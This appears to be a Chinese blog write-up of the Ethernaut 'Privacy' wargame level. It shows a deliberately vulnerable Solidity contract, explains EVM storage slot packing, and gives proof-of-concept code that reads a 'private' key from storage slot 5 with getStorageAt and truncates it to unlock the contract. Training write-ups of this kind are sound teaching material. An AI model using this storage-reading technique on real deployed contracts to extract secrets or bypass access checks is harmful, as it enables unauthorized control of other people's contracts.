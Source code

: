 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-10'
date: 2022-12-11 20:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'


---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第十二关Privacy 思路与POC

#### 目标: 将locked变量设置为false

##### 先看代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

/*
数据存储布局分析
！存储插槽不根据类型分配,只根据变量所占空间分配

 bool public locked = true; -> slot1没有位置所以独占32字节 = slot0
  uint256 public ID = block.timestamp; -> uint256占32字节 = slot1
  
  根据紧凑存储原则 以下三个相邻变量共享一个slot 
  uint8 private flattening = 10; -> 1字节 
  uint8 private denomination = 255; -> 1字节
  uint16 private awkwardness = uint16(block.timestamp); -> 2字节 
  -------------> slot2
  
  数组类型并且每个元素占32字节,连续存储
  bytes32[3] private data; -> data[0] = slot3 ,data[1] = slot4 ,data[2] = slot5
*/
  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}
```

##### poc思路:point_right:：虽然变量全部为private类型,而且密码还存在byte32数组中,但是呢如果对EVM的数据存储机制足够了解的话就能读取出byte32类型的密码

```js
//根据综上存储布局分析, 读取插槽5的数据    
await web3.eth.getStorageAt(
        "0x38Da8513ec46031966Db46718ef10E9fd6aa3Dd0",
        5,
        (err, res) => {
            console.log(res)
        }
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ByteConvert{
      
    bytes16 public  res16 ; 

    bytes32 public  res32 ; 
    //将byte32转换为byte16即是_key
    function byte32To16(bytes32 data) public{
        res16 =  bytes16(data);      
    }
     function byte16To32(bytes16 data) public{
        res32 =  bytes32(data);      
    }
}
```

##### 完成:tada:

```js
await contract.locked()
false
```

